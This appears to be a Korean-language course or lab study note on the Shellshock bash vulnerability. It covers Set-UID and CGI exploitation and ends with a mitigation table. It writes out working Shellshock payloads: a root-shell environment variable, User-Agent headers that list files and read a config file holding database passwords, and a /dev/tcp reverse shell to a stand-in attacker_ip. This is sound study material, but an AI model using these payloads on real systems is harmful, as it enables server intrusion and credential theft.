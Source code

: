 ```yaml
---

# 🐚 Shellshock Vulnerability 정리

---
```


## 📌 Shell이란?

* Shell: 운영체제에서 **command-line interpreter** 역할
* 사용자가 입력한 명령어를 해석하고 실행함

![alt text](image-5.png)

* \*\*`export`\*\*를 통해 자식 프로세스에 상속(inherit)할 수 있음

![alt text](image-6.png)

* 또한 환경 변수를 설정해주면, 자식 프로세스에서는 함수가 될 수 있음

---

## 🚨 Shellshock 취약점 개요

![alt text](image.png)

* **취약한 bash**는 환경 변수에 담긴 문자열을 해석(parsing)하는 과정에서,
* 함수 정의처럼 보이는 문자열에 **함수 바깥의 명령어까지 실행**함

* bash에서는 foo=() { 를 foo() {. . .}로 변환하고 parse_and_excute를 호출함으로써 일반적인 쉘 명령어도 실행할 수 있게 됨

![alt text](image-7.png)

원래 Line A 처럼 환경 변수로 선언했지만, B처럼 변환됨

```bash
export foo='() { :; }; /bin/sh'
```

* 위 코드는 단순히 함수 정의처럼 보이지만,
* 실제로는 `/bin/sh` 명령이 **즉시 실행됨**

## Exploiting the Shellshock
* bash 쉘로 실행해야 함
* 환경 변수를 통해 input을 받을 수 있어야 함
---

## ⚙️ 실습 예시: Set-UID 바이너리에서의 Shellshock

![alt text](image-1.png)

* `vul`이라는 Set-UID 바이너리를 실행했을 때,
  내부적으로 `bash`를 호출함
* `foo` 환경 변수에 포함된 악성 명령이 bash에 의해 실행됨
* 결과적으로 **bash가 root 권한으로 실행됨**
  → 공격자는 **root shell을 획득**

---

## 🌐 Shellshock on CGI (Web 서버)

### CGI: 웹 서버가 외부 프로그램을 실행해 HTML을 동적으로 생성하는 기술

![alt text](image-2.png)

### 동작 흐름:

1. 사용자가 HTTP 요청 전송
2. Apache 웹 서버는 **`fork()`** → 새로운 자식 프로세스 생성
3. 자식 프로세스는 `exec()`로 CGI 스크립트를 실행
4. CGI 스크립트 상단: `#!/bin/bash_shellshock`
   → **취약한 bash가 실행됨**
5. HTTP 요청에 조작된 header가 포함되어 있으면
   → **Shellshock 발생 → bash가 명령 실행**


## 🧪 실습 결과 예시

### `User-Agent` 헤더에 악성 명령 삽입

```http
User-Agent: () { :; }; /bin/ls -l
```

![alt text](image-3.png)

* 웹 서버가 `/bin/ls -l`을 실행한 결과가 HTML로 출력됨
* Apache는 root가 아니라 일반 사용자로 실행되므로 **root 권한 탈취는 어려움**
* 하지만 **시스템 내부 정보, 파일 목록 등은 유출 가능**

---

## 🔐 정보 탈취 사례: DB 비밀번호

![alt text](image-4.png)

* 많은 웹 프로그램이 비밀번호를 파일에 하드코딩함
* Shellshock으로 `cat` 명령 실행 → **DB 비밀번호가 외부로 유출됨**

```bash
User-Agent: () { :; }; cat /var/www/html/config.php
```

---

## 🌀 Reverse Shell

> 공격자가 원격에서 시스템 셸을 조작할 수 있게 연결하는 기법

### 개념

* 피해자가 공격자의 컴퓨터로 **공격자에게 연결된 셸**을 피해자 시스템에서 띄우는 것
* 공격자는 **자신의 PC에서 서버를 제어**할 수 있음

### 예시 명령어 (Shellshock 이용)

```bash
User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/attacker_ip/4444 0<&1 2>&1
```
![alt text](image-8.png)

* shell shock와 똑같은데, 악성코드를 통해 tcp 연결을 공격자에게 열어줌으로써, 공격자가 피해자의 시스템을 제어할 수 있게 됨됨
---

## ✅ 보안 대책 요약

| 위험 요소             | 보안 대책                                            |
| ----------------- | ------------------------------------------------ |
| 취약한 bash 사용       | 최신 bash로 업그레이드                                   |
| CGI 스크립트에 bash 사용 | `#!/bin/bash` 대신 `#!/bin/sh` 또는 Python, PHP 등 사용 |
| 환경 변수 검증 없음       | 사용자 입력 검증, `mod_security` 사용                     |
| root 권한 실행        | 웹 서버는 반드시 일반 사용자 권한으로 실행                         |

---

